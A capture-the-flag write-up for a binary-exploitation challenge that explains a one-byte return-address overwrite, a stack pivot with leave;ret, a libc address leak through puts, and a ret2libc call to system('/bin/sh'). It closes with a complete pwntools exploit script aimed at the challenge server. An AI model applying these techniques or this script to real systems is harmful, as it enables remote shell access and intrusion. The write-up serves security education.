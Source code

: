# Help


This one's a whirlwind, and it's a bit complex, so I'll lay it out in parts.

* Lots and lots of functions. The structure of the execution of the program is a little nested. Honestly, it doesn't matter much or at all. There are two functions we must focus on - ok, and finallyyouhelpedme
- Function: ok. This function has a global counter, on the sixth time it runs, we get an input. It reads 0x29 bytes into rbp-0x20 - giving us full control over RBP and partial control over the return address. By partial, I mean one byte. This is enough to send the binary to 0x40017XX, as the return address saved begins with 0x40017 and we can overwrite one byte of it. What can we do with this?

- Function: finallyyouhelpedme. It has two inputs. One that was irrelevant for what I did, but probably useful for other methods. It read into a global variable. The second one is a proper buffer overflow - 0x40 bytes read into rbp-0x20. This gives us control over saved RBP, and enough to make a 24-byte ROP chain.

finallyyouhelpedme is never called - we must redirect ok's return address into it. We can overwrite the first byte of the return address with 0x1f, sending it into the 4th instruction of finallyyouhelped me, where our input begins. I jumped here so that I didn't have to deal with stack alignment, nor things messing up between rbp and rsp.

Now what? a 24-byte ropchain is enough to do poprdi + got address + plt address and leak a libc address, but we cant return back to a function for another input after that.

Wait! The input is at rbp-0x20. 0x20 is 32 - that's exactly enough to do poprdi + got address + plt address + address of finallyyouhelpedme. Perfect!

What we'll do here is called a stack pivot. We can change the location of rsp via a leave ; ret gadget in order to relocate the stack and force the program to start popping ret addresses from somewhere else.

In order to do that, we need to know whereabouts our input is. I accomplished this by controlling saved RBP. Let's think back to our first input in ok. We get full control of saved RBP here, and this will be the RBP that gets passed into finallyouhelpedme(as we ret into the instruction after the whole push rbp;mov rbp,rsp mumbo jumbo). Thus, we can force the stack into a specific place. As there's no PIE, the segment mapped RW is constant, so we can set it somewhere int here.

Ok, back to before. We force RBP into a known place inside of a RW segment, so we know exactly where our input is. Now, we can send:

rop chain + address of input - 8 + leave ret

leave will set rsp to rbp, then pop rbp off the stack. Setting it to input - 8 means some random value will be popped off.

In order to stop problems with this later, we ret straight into the beginning of the finallyyouhelpedme function. As this moves rbp up to rsp, it causes anything we might've messed up in the stack(like that random rbp value...) to be automatically fixed.

Our rop chain will then be poprdi + got address + puts@plt + finallyouhelpedme address

Now, we will receive a libc address(write, specifically) and another input. We can calculate the libc base off of this, and use the classic payload - system("/bin/sh").

Final exploit:

1. Send 0x20 bytes of junk + address in RW segment + 0x1f
2. Send poprdi + got address + puts@plt + finallyyouhelpedme address + address of input - 8 + leave;ret gadget address
3. Receive libc address. Calculate base. Send dummy input(first input, useless) then send 0x28 bytes of junk(rbp doesnt matter anymore) + poprdi + /bin/sh address + system address

Script below.
```python
from pwn import *
import sys
mode = sys.argv[1]
NUM_TO_RBP = 0x20
NUM_TO_RET = NUM_TO_RBP + 8
pad1 = b'A' * NUM_TO_RBP
pad2 = b'A' * NUM_TO_RET
fakestack = 0x602000 - 0x200
poprdi = 0x0000000000400943 # pop rdi ; ret
ret = 0x00000000004005b6 # ret
leaveret = 0x0000000000400778 # leave ; ret
e = ELF("./chall2")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6" if mode == 'local' else '/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1_amd64/libc.so.6')
p = e.process() if mode == 'local' else remote('europe.pwn.zh3r0.ml', 7412)
payload = p64(fakestack) + b'\x1f'
p.recv()
p.sendline(pad1 + payload)
p.recv()
#leak = flat(fakestack, poprdi, e.got['write'],e.plt['puts'] , e.symbols['finallyyouhelpedme'],word_size=64)
bufaddr = fakestack-0x20
changer = flat(bufaddr-8,leaveret,word_size=64)
chain = flat(poprdi, e.got['write'],e.plt['puts'],e.symbols['finallyyouhelpedme'],word_size=64)
payload = chain
payload += b'B' * (NUM_TO_RBP - len(chain))
payload += changer
p.sendline(payload)
if mode == 'remote':
    p.recvlines(2)
output = p.recvline()[:-1] + b'\x00\x00'
leak = u64(output)
libcbase = leak - libc.symbols['write']
log.info(f"Libc puts leak: {hex(leak)}")
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
final = flat(poprdi, next(libc.search(b"/bin/sh\x00")),libc.symbols['system'],word_size=64)
pause()
p.sendline('t')
p.recvlines(2)
p.sendline(pad2 + final)
p.interactive()
```
